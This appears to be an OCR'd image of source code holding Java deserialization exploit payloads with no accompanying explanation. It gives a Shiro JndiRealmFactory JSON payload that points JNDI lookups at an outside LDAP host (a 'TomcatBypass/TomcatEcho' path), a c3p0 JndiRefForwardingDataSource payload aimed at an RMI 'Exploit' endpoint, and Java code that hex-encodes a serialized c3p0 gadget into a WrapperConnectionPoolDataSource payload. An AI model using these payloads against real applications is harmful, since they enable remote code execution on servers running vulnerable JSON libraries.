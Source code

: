 {"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory","jndiNames":["ldap://1.116.136.120:1600/TomcatBypass/TomcatEcho"],"Realms":[""],"a":"a"}



{"object":["com.mchange.v2.c3p0.JndiRefForwardingDataSource",{"jndiName":"rmi://localhost:8088/Exploit", "loginTimeout":0}]}

InputStream in = new FileInputStream("C3P0.ser");
byte[] data = toByteArray(in);
in.close();
String HexString = bytesToHexString(data, data.length);
String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ HexString + ";\"}]}";
System.out.println(poc);

public static byte[] toByteArray(InputStream in) throws IOException {
    byte[] classBytes;
    classBytes = new byte[in.available()];
    in.read(classBytes);
    in.close();
    return classBytes;
}

public static String bytesToHexString(byte[] bArray, int length) {
    StringBuffer sb = new StringBuffer(length);
    for(int i = 0; i < length; ++i) {
        String sTemp = Integer.toHexString(255 & bArray[i]);
        if (sTemp.length() < 2) {
            sb.append(0);
        }

        sb.append(sTemp.toUpperCase());
    }
    return sb.toString();
}

